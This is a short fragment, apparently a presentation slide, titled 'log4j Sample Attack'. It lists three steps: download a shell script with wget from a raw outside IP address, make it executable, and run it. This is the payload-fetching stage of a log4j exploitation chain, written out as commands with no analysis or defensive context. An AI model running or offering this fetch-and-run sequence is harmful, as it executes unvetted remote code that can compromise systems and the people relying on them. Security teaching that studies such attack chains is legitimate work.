

# log4j Sample Attack
Download file lh.sh -
wget http://62.210.130.250/lh.sh

Make it executable - chmod +x lh.sh

Run it - ./lh.sh